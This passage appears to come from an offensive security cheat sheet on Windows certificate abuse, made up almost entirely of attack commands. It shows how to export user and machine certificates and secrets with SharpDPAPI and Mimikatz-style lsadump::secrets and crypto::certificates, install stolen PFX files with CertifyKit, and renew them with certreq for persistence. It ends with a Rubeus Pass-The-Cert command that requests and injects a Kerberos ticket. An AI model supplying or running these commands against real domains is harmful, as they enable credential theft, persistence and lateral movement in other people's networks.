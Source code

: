 Export certificates from the User:

```
C:\Users\Public\SharpDPAPI.exe certificates
C:\Users\Public\SharpDPAPI.exe certificates /password:PASSWORD
```

Export certificates from the Machine:

```
C:\Users\Public\SharpDPAPI.exe certificates /machine
lsadump::secrets
crypto::certificates /export /systemstore:LOCAL_MACHINE
```


<br>

### <a name="18"></a>1.8 &nbsp;&nbsp; Parse

```
certutil -dump -v C:\Users\certstore\OpenVPN\config\CERT.pem
certutil -v -dump C:\Certs\USER.pfx
certutil -v -dump -p "PASSWORD" C:\Certs\CERT.pfx
```

<br>

### <a name="19"></a>1.9 &nbsp;&nbsp; Install

```
C:\Users\Public\CertifyKit.exe list /certificate:C:\Users\Public\CERT.pfx /password:PASSWORD /install
certutil -user -store My
C:\Users\Public\CertifyKit.exe list /certificate:C:\Users\USER\EncryptedFiles\USER.pfx /storename:My /install
```


<br>

### <a name="110"></a>1.10 &nbsp;&nbsp; Renew (PERSIST3)

```
certreq -enroll -user -q -PolicyServer * -cert CERT_HASH renew reusekeys
certreq -enroll -user -q -cert CERT_HASH renew
```

<br>

### <a name="111"></a>1.11 &nbsp;&nbsp; Pass-The-Cert

```
C:\Tools\Rubeus.exe asktgt /user:USER /certificate:C:\Certs\USER.pfx /password:PASSWORD /domain:DOMAIN /dc:DC.DOMAIN /nowrap /ptt
```

<br>
